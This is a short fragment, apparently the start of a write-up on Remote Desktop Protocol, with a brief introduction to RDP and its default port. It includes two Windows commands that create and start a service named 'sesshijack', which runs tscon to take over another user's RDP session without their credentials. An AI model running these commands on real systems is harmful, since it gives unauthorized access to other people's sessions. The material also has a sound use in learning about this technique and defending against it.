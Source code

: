 ### 1 - Introduction 

Remote Desktop Protocol (RDP) is a protocol that allows a user to connect to a server running RDS. Clients exist for almost all versions of Windows, and for other operating systems, such as GNU/Linux. The server listens by default on TCP port 3389.

```powershell
sc create sesshijack binpath= "cmd.exe /k tscon 3 /dest:rdp-tcp#0"
net start sesshijack
```
